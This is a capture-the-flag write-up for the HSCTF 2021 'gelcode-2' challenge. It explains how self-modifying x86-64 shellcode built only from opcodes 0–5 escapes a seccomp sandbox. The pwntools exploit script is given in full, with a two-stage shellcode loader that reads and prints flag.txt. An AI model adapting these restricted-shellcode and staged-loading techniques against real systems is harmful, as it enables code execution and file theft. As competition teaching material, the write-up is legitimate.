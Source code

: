 I did the gelcode challenge in HSCTF 2021 in solo, but did not finish it before CTF's end... 

this one was based on first gelcode, but even more restricted, you can only use opcodes values from 0 to 5..

there was also a seccomp in place

[![https://imgur.com/6hYpm4F.png](https://imgur.com/6hYpm4F.png)](https://imgur.com/6hYpm4F.png)

which only allows open, read, write syscalls

as often for this kind challenge, the solution, is escape as soon as you can from this hell..

with a read syscall, to read a unrestricted shellcode..

for this we need at minimum, to have:
* eax = 0
* rsi pointing to a RWX buffer
* rdi = 0
* and rdx containing an enough big value (at least as big as our shellcode, but can be bigger)

to complicate things, all the registers are set to 0x1337133713371337 before calling our shellcode, even rsp,

so we can not use stack.

the solution, in our case is self modifying code,

we are going to generate the opcodes we need, to bypass the restrictions in place.

we will use mainly:

```add eax,dword value   # opcode 05 val val val val```

to modify eax, (as we are in 64bit , the upper 32bits of rax will be cleared by using 32 bit arithmetic instructions)

```add al,byte value   # opcode 04 val```

to modify al only

```add dword[rip+0],eax   # opcode 01 05 00 00 00 00```

to modify next instruction (rip+0) by adding eax to values in place, with this one we can create instructions with any opcodes we want

```add byte[rip+0],al   # opcode 00 05 00 00 00 00```

to modify next instruction (rip+0) by adding al to value in place, with this one also we can create instructions with any opcodes we want

that's all we need !!!

first we create an opcode lea rsi,[rip] to make rsi points to ourself

then mov edx, 0x400

mov edi,0

then xor eax,eax / syscall to call the read syscall reading data on ourselves,

and replace the actual restricted shellcode by a second one, unrestricted,

where we can do an open/read/write shellcode to dump the flag...

I got first blood on this one (yes a bit proud :) )

with our team "Sentry Up Before You Nops Nops" --> french super team...cream of the cream...

```Nobodyisnobody stills pwning things..```


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
context.log_level = 'info'

exe = ELF('./gelcode-2')

host, port = "mc.ax", "31034"

# from a src eax, calculate increment of each byte to read dest eax, and emit correct opcodes for it
def equalize(src, dst):
  ret = ''
  ov0 = 0
  ov1 = 0
  ov2 = 0
  d0 = dst & 0xff
  d1 = (dst>>8)&0xff
  d2 = (dst>>16)&0xff
  d3 = (dst>>24)&0xff
  s0 = src & 0xff
  s1 = (src>>8)&0xff
  s2 = (src>>16)&0xff
  s3 = (src>>24)&0xff
  if (d0<s0):
    d0 += 0x100
    ov0 = 1
    s1 += 1
  if (d1<s1):
    d1 += 0x100
    ov1 = 1
    s2 += 1
  if (d2<s2):
    d2 += 0x100
    ov2 = 1
    s3 += 1
  if (d3<s3):
    d3 += 0x100

  while True:
    if ((s0 == d0) and (s1 == d1) and (s2 == d2) and (s3 == d3)):
      break
    if ((d0 - s0) > 5):
      o0 = 5
    else:
      o0 = d0 - s0
    if ((d1 - s1) > 5):
      o1 = 5
    else:
      o1 = d1 - s1
    if ((d2 - s2) > 5):
      o2 = 5
    else:
      o2 = d2 - s2
    if ((d3 - s3) > 5):
      o3 = 5
    else:
      o3 = d3 - s3
    s0 += o0
    s1 += o1
    s2 += o2
    s3 += o3
    ret += 'add eax,0x0'+str(o3)+'0'+str(o2)+'0'+str(o1)+'0'+str(o0)+'\n'
  return ret

# create lea rsi,[rip] opcode
sc = equalize(0x13371337,0x3088438b)
sc += 'add [rip+0],eax\n'
sc += '.byte 5,5,5,5,0,0,0,0\n'
sc += 'add al,5\n'*8
sc += 'add al,2\n'
#create mov edx, 0x400    opcode
sc += 'add [rip+0x0],al\n'
sc += '.byte 5,0,4,0,0\n'
sc += 'add al,5\n'
# create mov edi,0   opcode
sc += 'add [rip+0],al\n'
sc += '.byte 5,0,0,0,0\n'
# create xor eax,eax / syscall opcodes
sc += equalize(0x308843ba, 0xabb2c)
sc += 'add [rip+0],eax\n'
sc += '.byte 5,5,5,5\n'

shellcode = asm(sc)
print('shellcode length: '+str(len(shellcode)))

length = len(shellcode)


if args.REMOTE:
  p = remote(host,port)
  p.recvuntil('is ', drop=True)
  temp = int(p.recvuntil(' ', drop=True),10)
  print('actual max length: '+str(temp))
  if (temp<length):
    print('shellcode is still too big...wait a bit...')
    p.close()
    sys.exit()
  else:
    length = temp
else:
  if args.GDB:
    p = gdb.debug([exe.path, str(length)], gdbscript = '''
    source ~/gdb.plugins/gef/gef.py
    b main
    c
    pie breakpoint *0x16a1
    c
    stepi 17
     ''')
  else:
    p = process([exe.path, str(length)])

payload = bytearray(shellcode.ljust(length,b'\x00'))

# second shellcode, read from the first one,  simple open('flag.txt') , read(), write it to stdout   (if program does not ouput to stdout try other fds 0,1,2,3,4,5,etc..)
shellcode2 = asm('''
  mov rdi,rsi
  mov rbp,rdi
  mov rsi,0
  mov rdx,0
  mov eax,2
  syscall
  mov rdi,rax
  mov rsi,rbp
  mov rdx,0x200
  mov eax,0
  syscall
next:
  mov rdx,rax
  mov rdi,1
  mov rsi,rbp
  mov eax,1
  syscall

  mov eax,60
  syscall
''')

p.sendafter('input:\n', payload)

# the flag filename is here,  normally it's in current directory on remote machine
payload = b'flag.txt\x00'
payload = payload.ljust(0x150,b'\x90')
payload += shellcode2

p.send(payload)

p.interactive()

```

